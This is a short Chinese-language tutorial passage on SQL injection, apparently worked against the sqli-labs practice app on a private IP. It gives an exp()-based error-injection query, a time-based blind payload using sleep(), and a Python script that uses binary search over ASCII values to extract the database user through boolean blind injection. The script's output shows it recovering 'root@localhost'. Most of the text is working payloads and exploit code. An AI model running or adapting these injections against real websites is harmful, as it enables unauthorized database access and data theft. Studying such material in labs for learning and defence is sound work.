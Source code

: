 ```
10.exp()　　如：select * from test where id=1 and exp(~(select * from(select user())a));
```

#### python脚本sql注入(盲注)

利用py写一个通过二分法在ASCII码32到128范围内逐个推断user()的脚本。

如`http://192.168.2.60/sqli/Less-8/?id=1' and If(ascii(substr(database(),1,1))=115,1,sleep(5))-- -`

这段语句就是通过转化为ASCII码的方式找出需要的信息，但在码表中一个个寻找符合的字符显然需要耗费过多精力，因此通过脚本来更轻易的实现功能

```
import requests
session = requests.session()
url = "http://192.168.2.60/sqli/Less-8/?id=1'"
def db():
    name = ''
    for i in range(1,50):
        begin =32
        end =128
        tmp = (begin+end)//2
        while begin < end :
            paramsGet = url+ "/**/and/**/ascii(substr(user(),{0},1))>{1}--+".format(i,tmp)
            response = session.get(paramsGet)
            if 'You are in...........' in response.text:
                begin = tmp + 1
                tmp = (begin+end)//2
            else:
                end = tmp
                tmp = (begin+end)//2
        if(tmp==32):
            break
        name += chr(tmp)
        print(name)
db()
```

显示结果如下：

```
PS C:\Users\Administrator> & C:/env/python3.12/python.exe c:/Users/Administrator/Desktop/py/1.py
r
ro
roo
root
root@
root@l
root@lo
root@loc
root@loca
root@local
root@localh
root@localho
root@localhos
root@localhost
```
